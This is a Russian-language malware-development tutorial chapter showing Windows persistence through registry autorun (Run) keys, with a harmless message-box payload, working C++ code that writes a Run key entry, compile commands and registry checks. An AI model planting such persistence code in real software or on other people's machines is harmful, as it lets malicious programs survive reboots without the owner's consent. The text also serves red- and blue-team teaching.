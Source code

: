 \newpage
\subsection{67. Разработка вредоносного ПО: закрепление (persistence) - часть 1. Ключи автозапуска реестра. Пример на C++.}

![pers](./images/51/2022-04-20_09-43.png){width="80%"}    

Этот раздел открывает главу о техниках и трюках закрепления вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования "классического" трюка закрепления: ключей автозапуска в реестре.    

### ключи автозапуска

Добавление записи в "ключи автозапуска" в реестре приведёт к выполнению указанного приложения при входе пользователя в систему. Эти приложения будут выполняться в контексте пользователя и иметь уровень разрешений, соответствующий его учётной записи.    

Следующие ключи автозапуска создаются в Windows по умолчанию:    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`    

![pers](./images/51/2022-04-20_18-57.png){width="80%"}    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

![pers](./images/51/2022-04-20_18-58.png){width="80%"}    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`    

![pers](./images/51/2022-04-20_18-59.png){width="80%"}    

> Обратите внимание, что это может использоваться как один из способов анти-VM (VirtualBox).    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

![pers](./images/51/2022-04-20_18-59_1.png){width="80%"}    

Злоумышленники могут использовать эти конфигурационные пути для запуска вредоносного ПО и обеспечения его закрепления после перезагрузки системы. Они также могут маскировать записи в реестре, делая их похожими на легитимные программы.    

### практический пример

Рассмотрим практический пример. Допустим, у нас есть *"вредоносное ПО"* `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем его:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/51/2022-04-20_19-08.png){width="80%"}    

Сохраним его в папку `Z:\\2022-04-20-malware-pers-1\`:    

![pers](./images/51/2022-04-20_19-10.png){width="80%"}    

Теперь создадим скрипт `pers.cpp`, который создаст ключи реестра для автозапуска `hack.exe` при входе в Windows:    

```cpp
/*
pers.cpp
windows low level persistense 
via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, логика здесь самая простая. Мы просто добавляем новый ключ в реестр. Ключи реестра можно добавлять через терминал в ключи автозапуска для обеспечения закрепления, но так как я люблю писать код, я хотел показать, как сделать это с помощью нескольких строк кода.    

### демонстрация

Скомпилируем наш скрипт `pers.cpp`:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/51/2022-04-20_19-20.png){width="80%"}    

Сначала проверим ключи реестра на машине жертвы:    

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-35.png){width="80%"}    

Затем запускаем `pers.exe` и проверяем снова:   

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-39.png){width="80%"}    

Как видите, новый ключ добавлен, как и ожидалось.    
Теперь проверим всё в действии: выйдем из системы и войдём снова:    

![pers](./images/51/2022-04-20_09-40.png){width="80%"}    

![pers](./images/51/2022-04-20_09-40_1.png){width="80%"}    

![pers](./images/51/2022-04-20_09-44.png){width="80%"}    

Pwn! Всё работает идеально :)    

После завершения эксперимента удаляем ключи:    

```powershell
Remove-ItemProperty -Path \
"HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" \
-Name "hack"
reg query \
"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-46.png){width="80%"}    

### Windows 11

Этот метод также работает на `Windows 11`:    

![pers](./images/51/2022-04-21_10-29.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30_1.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30_2.png){width="80%"}    

![pers](./images/51/2022-04-21_10-31.png){width="80%"}    

И очистка системы:    

![pers](./images/51/2022-04-21_10-32.png){width="80%"}    

### Заключение

Создание ключей реестра для выполнения вредоносного приложения во время входа в Windows - один из старейших трюков в арсенале красных команд. Различные злоумышленники и известные инструменты, такие как Metasploit, Powershell Empire, предоставляют эту возможность, поэтому опытные специалисты синих команд смогут выявить такую вредоносную активность.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[исходный код на github](https://github.com/cocomelonc/2022-04-20-malware-pers-1)    
